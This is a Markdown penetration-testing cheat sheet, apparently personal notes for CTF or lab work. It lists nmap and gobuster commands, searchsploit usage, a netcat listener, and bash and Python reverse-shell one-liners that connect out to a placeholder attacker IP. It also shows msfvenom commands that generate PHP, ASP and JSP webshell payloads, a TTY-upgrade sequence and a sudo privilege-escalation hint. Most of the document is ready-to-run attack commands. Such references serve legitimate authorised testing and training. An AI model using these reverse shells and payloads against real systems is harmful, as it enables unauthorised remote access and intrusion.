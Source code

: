 ## Port scanning
### Nmap
* `nmap -sC -sV -oA <FILENAME> <TARGETIP>`
  * Default script, version detection, output to file 
  * [Explanation](https://www.cleancss.com/explain-command/nmap/4068984)


## Enumeration
### Directories
* `gobuster dir -u http://<SERVER> -o dirs.txt -w ~/links/dirlist.txt`
  * [Documentation](https://github.com/OJ/gobuster)
* [LinEnum.sh](https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh)

  
## Exploits
### Searchsploit
* Simple search - `searchsploit <KEYWORD>`
* Exploit details - `searchsploit -x <PATH>`
* Copy exploit - `searchsploit -m <PATH>`

### Websites
* [exploit-db.com](https://www.exploit-db.com/)

## Reverse shells
### Listen for connections
* `nc –nlvp <PORT>`
    * [Explanation](https://www.cleancss.com/explain-command/index.php?string=nc+-l+-v+-p)
### RCE
* Bash - `bash -i >& /dev/tcp/<ATTACKERIP>/<ATTACKERPORT> 0>&1`
* Python - `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ATTACKERIP>",<ATTACKERPORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'`

### Webshells
* `msfvenom -p <PAYLOAD> LHOST=<ATTACKERIP> LPORT=<ATTACKERPORT> -f raw > example.<EXT>`
  * PHP - `php/meterpreter_reverse_tcp`
  * ASP - `windows/meterpreter/reverse_tcp`
  * JSP - `java/jsp_shell_reverse_tcp`
* Kali - `/usr/share/webshells/` (ASP, ASPX, CFM, JSP, PERL, PHP)

### TTY shell
1. Open netcat session
2. `python -c 'import pty; pty.spawn("/bin/bash")'`
3. `export TERM=xterm`
4. `CTRL+Z`
5. `stty raw -echo`
6. `fg`

[Other methods of spawning a TTY Shell](https://netsec.ws/?p=337)

## Privilege escalation
### Sudo pwnage
* Commands executable as root - `sudo -l`
  * `(root) NOPASSWD: /usr/bin/vi /var/www/html/*`
  
[Basic cheat sheet](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)

## Useful websites
* Explain linux commands - [cleancss.com/explain-command/](https://www.cleancss.com/explain-command/)
* Default router settings - [cleancss.com/router-default/](https://www.cleancss.com/router-default/)